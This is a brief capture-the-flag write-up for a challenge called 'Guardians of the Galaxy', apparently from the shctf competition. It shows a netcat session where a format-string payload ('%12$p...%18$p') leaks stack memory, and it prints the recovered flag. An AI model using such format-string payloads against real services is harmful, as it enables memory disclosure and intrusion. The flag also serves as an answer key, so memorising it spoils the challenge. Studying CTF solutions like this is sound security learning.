 # Guardians of the Galaxy  
```
$ nc 0.cloud.chals.io 12690
Does Quill manage to win the dance battle?
%12$p.%13$p.%14$p.%15$p.%16$p.%17$p.%18$p

Oh no, Ronan has seen through the distraction!
0x6d697b6674636873.0x636172747369645f.0x756f795f676e6974.0x56183c000a7d.0x7ffd7578daf0.%
Does Quill manage to win the dance battle?
```
flag: `shctf{im_distracting_you}`
